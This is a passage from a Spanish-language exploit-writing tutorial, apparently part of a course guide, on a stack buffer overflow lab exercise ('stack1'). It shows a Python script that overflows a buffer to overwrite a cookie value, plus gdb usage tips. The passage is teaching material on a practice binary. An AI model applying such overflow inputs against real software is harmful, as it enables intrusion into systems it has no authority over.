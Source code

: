 Y logramos imprimir el mensaje ganador.\
&#x20;A medida que los exploits se complejicen será de utilidad armar un archivo en Python con el exploit que funcionará como input: `exploit.py`.

```bash
#!/usr/bin/python
output = "A" * 80 + "\x44\x43\x42\x41"
print output
```

Y al ejecutar el programa con ese input logramos el mismo resultado:

```bash
user@abos:~$ python exploit.py |./stack1
buf: bffff5b4 cookie: bffff604
you win!
```

{% hint style="danger" %}
Si utilizamos `gdb` a la hora de debugear el programa es importante tener en cuenta las diferencias en las direcciones al ejecutar un programa y al debugearlo con `gdb` para lograr los resultados esperados.
{% endhint %}

{% hint style="success" %}
Cuando debugeamos con [`gdb`](https://fundacion-sadosky.github.io/guia-escritura-exploits/herramientas.html#debugger-gdb) es posible ingresar un input por stdin al programa vulnerable de la siguiente manera:
{% endhint %}

```bash
user@u:~$ python exploit.py > in
user@u:~$ gdb ./stack1
GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
...
(gdb) r < in
buf: bffff5b4 cookie: bffff604
you win!
```

### Layout de la pila después del exploit: <a href="#layout-de-la-pila-despues-del-exploit" id="layout-de-la-pila-despues-del-exploit"></a>

Gráficamente logramos el siguiente resultado:

![](<../../.gitbook/assets/imagen (96).png>)
